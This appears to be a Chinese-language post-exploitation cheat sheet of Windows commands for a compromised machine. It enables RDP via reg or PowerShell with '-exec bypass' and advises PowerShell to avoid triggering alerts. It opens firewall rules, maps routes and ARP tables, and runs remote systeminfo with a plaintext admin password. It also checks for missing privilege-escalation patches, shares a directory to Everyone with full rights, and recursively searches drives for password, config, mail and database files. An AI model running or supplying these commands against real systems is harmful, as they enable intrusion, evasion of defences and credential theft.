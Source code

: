 操作当前机器的rdp,实战中推荐直接用powershell来搞,直接用reg可能会触发防护报警:

第一种,使用原始的reg工具,适合03以下的系统
```
查询rdp的端口,注意把默认的十六进制转换成十进制
# reg query "HKLM\System\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v PortNumber

启用rdp:
# reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

禁用rdp:
# reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 1 /f
```

第二种,利用powershell
```
利用powershell启用禁用rdp:
C:\>powershell -exec bypass
PS C:\> Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server'-name "fDenyTSConnections" -Value 0
PS C:\> Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server'-name "fDenyTSConnections" -Value 1

放开防火墙对rdp的限制
# netsh advfirewall firewall set rule group="remote desktop" new enable=yes
# netsh advfirewall firewall set rule group="远程桌面" new enable=yes
```

查看本机的路由情况:
```
# route print			打印本机路由信息,可以看到本机所有的网卡接口
# arp -a			查找有价值的内网arp 通信记录
# netsh int ip delete arpcache	删除当前机器的arp缓存
# tracert 8.8.8.8	 	跟踪本机出口ip
```

查看当前机器自身的配置信息:
```
# systeminfo 			查看本机的详细配置信息
# systeminfo /S 192.168.3.122 /U KLIONSEC\administrator /P "admin!@#123"	查看远程指定机器的详细系统配置信息
# systeminfo>temp.txt&(for %i in (KB2271195 KB2124261 KB2160329 KB2621440  KB2707511 KB2829361 KB2864063 KB3000061 KB3045171 KB3036220 KB3077657 KB3079904 KB3134228 KB3124280 KB3199135) do @type temp.txt|@find /i  "%i"|| @echo %i Not Installed!)&del /f /q /a temp.txt

# set				查看当前机器的环境变量配置,看有没有我们可以直接利用到的语言环境
# ver / winver  		查看当前机器的NT内核版本
# fsutil fsinfo drives 		列出当前机器上的所有盘符
# net share			查看当前机器开启的共享
# net share public_dir="c:\public" /grant:Everyone,Full	 设置共享
```

在指定目录下搜集各类敏感文件:
```
# dir /a /s /b d:\"*.txt"
# dir /a /s /b d:\"*.xml"
# dir /a /s /b d:\"*.mdb"
# dir /a /s /b d:\"*.sql"
# dir /a /s /b d:\"*.mdf"
# dir /a /s /b d:\"*.eml"
# dir /a /s /b d:\"*.pst"
# dir /a /s /b d:\"*conf*"
# dir /a /s /b d:\"*bak*"
# dir /a /s /b d:\"*pwd*"
# dir /a /s /b d:\"*pass*"
# dir /a /s /b d:\"*login*"
```
